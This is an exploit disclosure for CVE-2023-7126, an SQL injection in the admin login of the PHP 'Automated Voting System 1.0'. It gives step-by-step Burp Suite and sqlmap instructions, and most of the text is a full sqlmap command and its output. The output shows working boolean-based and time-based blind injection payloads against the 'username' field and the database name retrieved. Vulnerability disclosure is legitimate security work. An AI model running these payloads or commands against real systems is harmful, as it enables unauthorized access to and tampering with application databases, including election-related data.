 # CVE-2023-7126_Automated_Voting_System-SQL_Injection-1
+ **Exploit Title:** CVE-2023-7126_Automated_Voting_System-SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/automated-voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/AUTOMATED_VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7126

## References: 
+ **CVE-2023-7126:** https://vuldb.com/?id.249129
+ https://www.cve.org/CVERecord?id=CVE-2023-7126
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7126

## Description:
Automated Voting System 1.0 allows SQL Injection via parameter 'username' in "/automated%20voting/admin/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin panel: "http://localhost/automated%20voting/admin/"
+ Fill the username and password then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit.
+ In sqlmap, use 'username' parameter to dump the database. 
```
sqlmap -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART username ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: -----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="username"

-1676' OR 6176=6176-- hmdo
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="password"

pass
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="login"


-----------------------------192279164335952871372031982036--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="username"

adminn' AND (SELECT 7935 FROM (SELECT(SLEEP(5)))MYPj)-- oinA
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="password"

pass
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="login"


-----------------------------192279164335952871372031982036--
---
[19:21:50] [INFO] testing MySQL
got a 302 redirect to 'http://localhost/automated%20voting/admin/candidate.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[19:21:50] [INFO] confirming MySQL
[19:21:52] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[19:21:52] [INFO] fetching current database
[19:21:52] [INFO] resumed: voting
current database: 'voting'
```

+ current database: `voting`
![01](https://github.com/h4md153v63n/CVEs/assets/5091265/654f8856-e854-4018-8208-8ca07971bb50)
